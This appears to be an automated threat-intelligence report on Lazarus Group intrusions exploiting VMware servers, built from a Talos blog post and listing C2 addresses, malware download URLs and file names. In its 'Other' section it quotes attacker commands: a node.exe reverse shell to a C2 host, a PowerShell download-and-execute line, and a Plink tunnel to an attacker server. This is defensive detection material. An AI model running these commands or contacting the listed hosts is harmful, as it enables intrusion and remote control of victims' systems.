# Threat Report: 2022-09-12: Scraper: Talos Website


## Key Intelligence
* Date: 2022-09-12
* Threat Level: 2 (Medium)
* Tags: misp:tool="misp-scraper", osint:source-type="blog-post", misp:event-type="collection", misp-galaxy:country="canada", misp-galaxy:country="japan", misp-galaxy:country="united states", misp-galaxy:sector="Energy", misp-galaxy:mitre-intrusion-set="Lazarus Group - G0032", misp-galaxy:mitre-attack-pattern="Exploit Public-Facing Application - T1190", misp-galaxy:mitre-attack-pattern="File and Directory Discovery - T1083", misp-galaxy:mitre-attack-pattern="Gather Victim Network Information - T1590", misp-galaxy:mitre-attack-pattern="Software Discovery - T1518", misp-galaxy:mitre-attack-pattern="Impair Defenses - T1562", misp-galaxy:mitre-attack-pattern="Stage Capabilities - T1608", misp-galaxy:mitre-attack-pattern="Cached Domain Credentials - T1003.005", misp-galaxy:mitre-attack-pattern="Create Account - T1136", misp-galaxy:mitre-attack-pattern="System Information Discovery - T1082", tlp:white

---

## Indicators of Compromise (IOCs)
### External analysis
* link: https://blog.talosintelligence.com/2022/09/lazarus-three-rats.html — Blog URL

### Network activity
* ip-dst: 84.38.133.145 — hosting platform for the actors' malicious tools
* ip-dst: 104.155.149.103
* ip-dst: 40.121.90.194
* ip-dst: 185.29.8.162
* ip-dst: 146.4.21.94
* ip-dst: 46.183.221.109
* ip-dst: 109.248.150.13
* ip-dst: 155.94.210.11
* ip-dst: 192.186.183.133
* ip-dst: 54.68.42.4
* ip-dst: 213.180.180.154
* url: http://104.155.149.103/2-443.ps1
* url: http://104.155.149.103/8080.ps1
* url: http://104.155.149.103/mi64.tmp
* url: http://104.155.149.103/mi.tmp
* url: http://104.155.149.103/mm.rar
* url: http://104.155.149.103/pd64.tmp
* url: http://104.155.149.103/rar.tmp
* url: http://104.155.149.103/spr.tmp
* url: http://104.155.149.103/t.tmp
* url: http://104.155.149.103/update.tmp
* url: http://109.248.150.13:8080/1
* url: http://146.4.21.94/tmp/data_preview/virtual.php
* url: http://185.29.8.162:443/1.tmp
* url: http://40.121.90.194/11.jpg
* url: http://40.121.90.194/300dr.cert
* url: http://40.121.90.194/b.cert
* url: http://40.121.90.194/qq.cert
* url: http://40.121.90.194/ra.cert
* url: http://40.121.90.194/Rar.jpg
* url: http://40.121.90.194/tt.rar
* url: http://46.183.221.109//dfdfdfdfdfdfdfdfdfaflakjdfljaldjfladfljaldkfjlajdsflajdskf/huntertroy.exe
* url: http://46.183.221.109//dfdfdfdfdfdfdfdfdfaflakjdfljaldjfladfljaldkfjlajdsflajdskf/svhostw.exe
* url: http://84.38.133.145/board.html
* url: http://84.38.133.145/header.xml
* url: http://www.ajoa.org/home/manager/template/calendar.php
* url: http://www.ajoa.org/home/rar.tmp
* url: http://www.ajoa.org/home/tmp.ps1
* url: http://www.ajoa.org/home/ztt.tmp
* url: http://www.orvi00.com/ez/admin/shop/powerline.tmp
* url: http://tecnojournals.com/review — VSingle C2s
* url: http://semiconductboard.com/xml — VSingle C2s
* url: http://cyancow.com/find — VSingle C2s
* url: http://155.94.210.11/news/page.php — MagicRAT C2s
* url: http://192.186.183.133/bbs/board.php — MagicRAT C2s
* url: http://213.32.46.0/board.php — MagicRAT C2s
* url: http://54.68.42.4/mainboard.php — MagicRAT C2s
* url: http://84.38.133.145/apollom/jeus.php — MagicRAT C2s
* url: http://mudeungsan.or.kr/gbbs/bbs/template/g_botton.php — MagicRAT C2s
* url: http://www.easyview.kr/board/Kheader.php — MagicRAT C2s
* url: http://www.easyview.kr/board/mb_admin.php — MagicRAT C2s
* url: http://213.180.180.154/editor/session/aaa000/support.php — YamaBot C2s

### Other
* comment: %PROGRAMFILES%\\VMware"VMware View"\Server\appblastgateway\node.exe -r net -e "sh = require('child_process').exec('cmd.exe');var client = new net.Socket();client.connect(<Port>, '<C2_IP>', function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});" — attackers abuse node.exe, which is shipped with VMware to execute the oneliner node.exe script
* comment: powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://<remote_location>/<filename>.ps1') — exploiting vulnerabilities in VMWare to launch custom PowerShell scripts on the infected endpoin
* comment: %WINDIR%\system32\config\systemprofile\AppData\Roaming\microsoft\osc.exe -i127.0.0.1 -p8118 — the attackers start the osc.exe (3proxy) to listen on a loopback port (in this example, we chose 8118)
* comment: %WINDIR%\system32\config\systemprofile\AppData\Roaming\microsoft\pvhost.exe -N -R 18118:127.0.0.1:8118 -P [Port] -l [username] -pw [password] <Remote_IP> — an SSH tunnel using Plink, but they forwarded a local port to a remote address, in this case, a remote server controlled by the attackers

### Payload delivery
* filename: pvhost.tmp
* filename: pvhost.exe
* filename: osc.tmp
* filename: osc.exe
* sha256: <sha256> — VSingle
* sha256: <sha256> — MagicRAT
* sha256: <sha256> — MagicRAT
* sha256: <sha256> — MagicRAT
* sha256: <sha256> — MagicRAT
* sha256: <sha256> — YamaBot
* sha256: <sha256> — Procdump
* sha256: <sha256> — Procdump
* sha256: <sha256> — Mimikatz
* sha256: <sha256> — Mimikatz
* sha256: <sha256> — Mimikatz
* sha256: <sha256> — 3Proxy
* sha256: <sha256> — PuTTY plink
* sha256: <sha256> — Adfind
* sha256: <sha256> — PuTTY plink
